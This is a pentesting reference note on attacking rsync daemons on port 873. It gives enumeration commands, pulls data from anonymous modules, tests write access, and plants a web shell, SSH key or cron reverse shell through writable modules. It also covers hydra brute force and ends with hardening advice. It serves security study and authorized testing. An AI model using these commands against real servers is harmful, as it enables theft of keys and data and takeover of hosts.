

# 36 - rsync (Port 873) Pentesting

## 1. Executive Summary

rsync is a fast file-synchronization tool that, in daemon mode, listens on **TCP 873** and exposes named "**modules**" (shared directories). The recurring weakness is **anonymous, unauthenticated module access**: many rsync daemons let anyone list modules and then read — or even **write** — files without credentials. Read access leaks configs, backups, and SSH keys; write access to a sensitive path (webroot, `~/.ssh`, cron) is a direct route to code execution.

## 2. Protocol Overview & Architecture

The daemon is configured in `rsyncd.conf`, where each `[module]` maps to a path with options like `read only`, `auth users`, and `secrets file`. If `auth users` is unset, the module is anonymous. The `rsync://` URL scheme addresses modules: `rsync://host/module/path`.

## 3. Enumeration & Footprinting

```bash
nmap -sV --script rsync-list-modules -p 873 <IP>

# List available modules (no creds)
rsync -av --list-only rsync://<IP>/
rsync rsync://<IP>:873/

# List contents of a module
rsync -av --list-only rsync://<IP>/shared_name
```

## 4. Exploitation Deep Dive

### 4.1 Anonymous Read
```bash
rsync -av rsync://<IP>/shared_name ./loot/      # pull everything
```
Hunt for `id_rsa`, `.bash_history`, configs with credentials, database backups.

### 4.2 Anonymous Write → Code Execution
Test writability, then drop a payload into a powerful path:
```bash
echo test > test.txt
rsync -av test.txt rsync://<IP>/shared_name/          # writable?
# Writable webroot → web shell; writable ~/.ssh → authorized_keys; writable cron → reverse shell
rsync -av evil.php rsync://<IP>/webroot/shell.php
```

### 4.3 Authenticated Modules — Brute Force
If `auth users` is set:
```bash
hydra -L users.txt -P pass.txt rsync://<IP>
nmap -p873 --script rsync-brute --script-args "rsync-brute.module=shared" <IP>
```

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Looted SSH keys/configs → direct login and lateral movement.
- Writable path → web shell / SSH key / cron → host compromise.

## 7. Defense & Hardening
1. Require authentication (`auth users` + `secrets file`); no anonymous modules.
2. Set modules `read only = yes` unless write is essential; restrict paths.
3. Bind to internal/VPN; firewall 873; prefer rsync over SSH instead of the daemon.

## 8. Chaining Opportunities
- Read SSH keys → **[[01 - SSH (Port 22) Pentesting]]**.
- Writable webroot → web shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[04 - FTP (Port 21) Pentesting]]
- [[25 - NFS (Port 2049) Pentesting]]

## 10. Tools
`rsync`, `nmap` rsync-list-modules/rsync-brute, `hydra`.
